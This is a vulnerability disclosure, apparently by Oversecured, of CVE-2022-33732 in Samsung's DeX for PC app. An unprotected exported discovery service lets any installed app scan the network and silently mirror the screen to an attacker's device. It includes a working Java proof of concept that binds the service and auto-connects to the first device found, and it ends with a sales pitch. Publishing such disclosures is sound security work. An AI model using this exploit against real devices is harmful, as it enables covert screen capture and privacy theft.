

# Details

<table>
    <tr>
        <td>Name</td>
        <td>DeX for PC</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.sec.android.app.dexonpc</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.31</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.08.02</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33732">CVE-2022-33732</a> (SVE-2022-0805)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$2120</td>
    </tr>
</table>

# Description

Oversecured found an exported service `com.sec.android.app.dexonpc.discovery.DOPDiscoveryService` that exposed its AIDL interfaces:


The DeX for PC app is responsible for screen mirroring from a Samsung device to other devices such as a PC. The service provides APIs for the app, such as scanning the local network for available devices, connecting to them, etc. The problem was that this service was not protected in any way and any third-party app could unobtrusively scan the network and automatically leak the entire screen to the attacker's device, being in the same network with them.

**Proof of Concept**

This code just automatically connects to the first device it comes across:

```java
private IDiscoveryService discoveryService;

private ServiceConnection mServiceConnection = new ServiceConnection() {
    public void onServiceConnected(ComponentName cName, IBinder service) {
        discoveryService = IDiscoveryService.Stub.asInterface(service);
        processService();
    }

    public void onServiceDisconnected(ComponentName cName) {
    }
};

private IDiscoveryServiceCallback.Stub discoveryServiceCallback = new IDiscoveryServiceCallback.Stub() {
    @Override
    public void dismissCDD() {
        Log.d("evil", "dismissCDD");
    }

    @Override
    public void onConnectionStateChanged(DeviceData deviceData) {
        Log.d("evil", "onConnectionStateChanged");
    }

    @Override
    public void onDeviceAdded(DeviceData deviceData) throws RemoteException {
        Log.d("evil", "onDeviceAdded");
        // connect to the first discovered device
        discoveryService.connect(deviceData);
    }
};

protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent i = new Intent();
    i.setClassName("com.sec.android.app.dexonpc", "com.sec.android.app.dexonpc.discovery.DOPDiscoveryService");
    bindService(i, mServiceConnection, BIND_AUTO_CREATE);
}

private void processService() {
    try {
        discoveryService.registerCallback(discoveryServiceCallback);
        discoveryService.startScan();
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.